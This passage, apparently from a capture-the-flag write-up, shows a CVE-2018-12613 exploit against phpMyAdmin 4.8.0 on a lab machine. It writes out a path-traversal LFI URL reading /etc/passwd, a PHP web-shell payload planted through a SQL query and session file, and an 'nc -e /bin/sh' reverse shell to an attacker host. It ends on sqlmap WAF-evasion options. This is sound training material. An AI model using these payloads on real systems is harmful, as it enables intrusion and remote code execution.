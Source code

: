 I can see the version is 4.8.0:

![1561706200364](https://0xdfimages.gitlab.io/img/1561706200364.png)

There’s an vulnerability in this version,
[CVE-2018-12613](https://medium.com/@happyholic1203/phpmyadmin-4-8-0-4-8-1-remote-
code-execution-257bcc146f8e). It’s a local file include (LFI) that allows for
remote code execution (RCE).

The LFI is because there is an inconsistency in how `%3f` is handled in the
security check and the include. I can visit
`http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%3f/../../../../etc/passwd`
and see the include works:

[![passwd](https://0xdfimages.gitlab.io/img/1561706568973.png)_Click for full
size image_](https://0xdfimages.gitlab.io/img/1561706568973.png)

Now it’s just a matter of getting some php code I want to run on the site. I
can do that by issuing a SQL query, and then including my php session info.

I’ll click on the “SQL” tab at the top, and enter the query:

    
    
    SELECT '<?php system($_GET["cmd"]);?>'
    

Then I hit go:

![1561706788284](https://0xdfimages.gitlab.io/img/1561706788284.png)

Now, I’ll include my php session info. I’ll check burp to grab my `phpMyAdmin`
cookie, and visit:
`http://10.10.10.143/phpmyadmin/index.php?cmd=id&target=db_sql.php%3f/../../../../../var/lib/php/sessions/sess_e3qctegac4saf72rocbl1541j26u7mqm`:

![1561707173193](https://0xdfimages.gitlab.io/img/1561707173193.png)

Now I can get a shell changing `cmd=id` to `cmd=nc -e /bin/sh 10.10.14.8 443`:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.143.
    Ncat: Connection from 10.10.10.143:35900.
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Path 2: WebShell Via SQLi

#### sqlmap

It seems that IronWAF isn’t perfect against `sqlmap`. I got it to work
sometimes. But with a bit of tweaking, I could get it to work reliably. The
options I’ll use are `--random-agent` to mess with the user agent string, and
low level and risk.

